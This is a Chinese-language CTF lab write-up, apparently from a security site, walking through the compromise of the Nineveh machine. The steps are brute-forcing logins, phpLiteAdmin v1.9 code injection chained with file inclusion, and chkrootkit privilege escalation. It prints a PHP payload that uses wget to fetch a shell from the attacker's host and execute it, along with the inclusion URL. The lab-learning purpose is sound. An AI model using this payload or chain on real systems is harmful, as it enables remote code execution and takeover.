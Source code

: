 > 原文链接: https://www.anquanke.com//post/id/104336 


# 渗透测试实战-Nineveh靶机测试


                                阅读量   
                                **435094**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">28</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p5.ssl.qhimg.com/t014bfc16c5b7cad282.jpg)](https://p5.ssl.qhimg.com/t014bfc16c5b7cad282.jpg)

## # 前言

该靶机原本是某个在线CTF平台的解题靶机，国外大神不知使用什么姿势把OVA发布在了某平台上，被本菜下载来了。通过介绍得知本靶机以拿到**/root/root.txt**文件为完成。

## 准备环境

VirtualBox 192.168.1.51<br>
kali linux 192.168.1.101<br>
ova靶机下载地址： [https://pan.baidu.com/s/1mD5a3AIFRJ-JmTleu0W0qg](https://pan.baidu.com/s/1mD5a3AIFRJ-JmTleu0W0qg)<br>**注：本机系统内已默认写入IP“192.168.0.105”，如有需要就自行修改IP**（本菜是修改了IP）<br>[![](https://p4.ssl.qhimg.com/t01f91a972f256d613b.png)](https://p4.ssl.qhimg.com/t01f91a972f256d613b.png)

## 实操

神器nmap开路<br>[![](https://p0.ssl.qhimg.com/t0155d234cb5cf6b972.png)](https://p0.ssl.qhimg.com/t0155d234cb5cf6b972.png)

发现只开放了80、443 2个端口，我们访问443端口，老规矩看证书，里面肯定有包含特殊信息：“[admin@nineveh.htb](mailto:admin@nineveh.htb)”，如图：<br>[![](https://p5.ssl.qhimg.com/t012ac4b064c068c36d.png)](https://p5.ssl.qhimg.com/t012ac4b064c068c36d.png)<br>
通过证书，只有一张图片，那我们进行用爆破工具跑一下，如御剑等等，本菜用dirb<br>[![](https://p2.ssl.qhimg.com/t018a5ede3d4797c1eb.png)](https://p2.ssl.qhimg.com/t018a5ede3d4797c1eb.png)<br>
访问/db/ 发现使用phpliteadmin v1.9 这么明显标示的肯定是有问题的，不用怀疑google搜一波,发现存在远程命令执行漏洞<br>[![](https://p4.ssl.qhimg.com/t0165856caf776e518a.png)](https://p4.ssl.qhimg.com/t0165856caf776e518a.png)<br>
根据要求我们需要创建一个数据库，那么前提就算破解这个密码了，上burp,加载上字典这波操作过于简单，小弟就不放图浪费大佬们时间了，得到密码为：**password123**

登录成功后按照漏洞资料上的操作,先创建一个名为“ninevehNotes1.php”的数据库（为什么要用这个名字纳，后面会提到！） 表名处随便添，在最后执行语句中可以添加自己常用的马，本菜使用msf的php马，如&lt;?php system(“wget [http://192.168.1.101/shell.txt](http://192.168.1.101/shell.txt) -O /tmp/shell11.php; php /tmp/shell11.php”); ?&gt;<br>[![](https://p4.ssl.qhimg.com/t01ee18c38524cadb16.png)](https://p4.ssl.qhimg.com/t01ee18c38524cadb16.png)<br>
一切准备就绪，我们还差一个能触发的点，我们继续回到80端口，还是一样开启神器爆破目录<br>[![](https://p4.ssl.qhimg.com/t01241ed85b6a52f68d.png)](https://p4.ssl.qhimg.com/t01241ed85b6a52f68d.png)<br>
发现目录访问 [http://192.168.1.51/department/](http://192.168.1.51/department/) 简单测试知道帐号为admin（标示明显）<br>[![](https://p5.ssl.qhimg.com/t01bc28483b46eab527.png)](https://p5.ssl.qhimg.com/t01bc28483b46eab527.png)<br>
密码进行挂上字典爆破 **得到密码： 1q2w3e4r5t**<br>[![](https://p5.ssl.qhimg.com/t014ec87e29f953bf52.png)](https://p5.ssl.qhimg.com/t014ec87e29f953bf52.png)<br>
登录在[http://192.168.1.51/department/manage.php?notes=files/ninevehNotes.txt](http://192.168.1.51/department/manage.php?notes=files/ninevehNotes.txt) 是一个简单任意文件读取，但是这里的读取文件是被写入白名单里的，就是它只能读取结尾带‘ninevehNotes’的文件，测试如图：<br>[![](https://p4.ssl.qhimg.com/t0141fd8ad0da9c1c03.png)](https://p4.ssl.qhimg.com/t0141fd8ad0da9c1c03.png)<br>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t014ddbbba90440c9f9.png)<br>
我们用这个配合上前面的漏洞执行拿shell<br>
POC：<br>**[http://192.168.1.51/department/manage.php?notes=/var/tmp/ninevehNotes1.php](http://192.168.1.51/department/manage.php?notes=/var/tmp/ninevehNotes1.php)**<br>[![](https://p5.ssl.qhimg.com/t01a610ced0db4bd78c.png)](https://p5.ssl.qhimg.com/t01a610ced0db4bd78c.png)<br>
但是这个权限还算不够的，我们只能通过提权做进一步操作。大家肯定都直接想到脏牛提权了，但是本靶机没有这个漏洞，本菜在进行磁盘查看的时候，发现一个叫“/report”的文件夹，通过查看里面的文件发现是一个rootkit检测工具的实时报告文件，如图<br>[![](https://p1.ssl.qhimg.com/t010c778f6d57c4155e.png)](https://p1.ssl.qhimg.com/t010c778f6d57c4155e.png)<br>
本菜使用比较笨的方法，就是把所知道的关于rookit的检测工具都进行全盘搜索，最后定位到使用了“chkrootkit”，<br>[![](https://p0.ssl.qhimg.com/t01644341018a70ddb7.png)](https://p0.ssl.qhimg.com/t01644341018a70ddb7.png)<br>
通过查看其版本号和配置信息结合google搜索，发现一个本地提权漏洞，而MSF也已经有该利用脚本，如图：<br>[![](https://p3.ssl.qhimg.com/t012f57a6c9c52c5790.png)](https://p3.ssl.qhimg.com/t012f57a6c9c52c5790.png)

通过该漏洞最终拿下来root权限并得到flag：<br>[![](https://p1.ssl.qhimg.com/t017a19743ebb854204.png)](https://p1.ssl.qhimg.com/t017a19743ebb854204.png)

本靶机还可以通过获取ssh key 来提权，ssh key写在一个名叫“nineveh.png”图片内，如图：<br>[![](https://p2.ssl.qhimg.com/t011d57c668b5a19d8e.png)](https://p2.ssl.qhimg.com/t011d57c668b5a19d8e.png)<br>
有兴趣的小伙伴可以自己研究一下。

**如果哪里写的不对，望清各位大佬斧正！感谢各位观看！**
